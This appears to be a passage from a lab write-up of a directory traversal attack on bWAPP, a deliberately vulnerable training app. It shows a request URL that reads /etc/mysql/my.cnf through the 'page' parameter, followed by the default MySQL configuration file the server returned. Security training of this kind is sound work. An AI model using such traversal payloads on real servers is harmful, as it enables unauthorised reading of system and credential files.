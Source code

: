 ```
http://10.200.122.18/bWAPP/directory_traversal_1.php?page=/etc/mysql/my.cnf (the value of the page parameter is the specific location of the .my.cnf file in Debian/Ubuntu OS)
```

The content returned from site is the following:

```
#
# The MySQL database server configuration file.
#
# You can copy this to one of:
# - "/etc/mysql/my.cnf" to set global options,
# - "~/.my.cnf" to set user-specific options.
#
# One can use all long options that the program supports.
# Run program with --help to get a list of available options and with
# --print-defaults to see which it would actually understand and use.
#
# For explanations see
# http://dev.mysql.com/doc/mysql/en/server-system-variables.html

# This will be passed to all mysql clients
# It has been reported that passwords should be enclosed with ticks/quotes
# escpecially if they contain "#" chars...
# Remember to edit /etc/mysql/debian.cnf when changing the socket location.
[client]
port = 3306
socket = /var/run/mysqld/mysqld.sock

# Here is entries for some specific programs
# The following values assume you have at least 32M ram

# This was formally known as [safe_mysqld]. Both versions are currently parsed.
[mysqld_safe]
socket = /var/run/mysqld/mysqld.sock
nice = 0

[mysqld]
#
# * Basic Settings
#

#
# * IMPORTANT
# If you make changes to these settings and your system uses apparmor, you may
# also need to also adjust /etc/apparmor.d/usr.sbin.mysqld.
#

user = mysql
pid-file = /var/run/mysqld/mysqld.pid
socket = /var/run/mysqld/mysqld.sock
port = 3306
basedir = /usr
datadir = /var/lib/mysql
tmpdir = /tmp
skip-external-locking
#
# Instead of skip-networking the default is now to listen only on
# localhost which is more compatible and is not less secure.
bind-address = 127.0.0.1
#
# * Fine Tuning
#
key_buffer = 16M
```
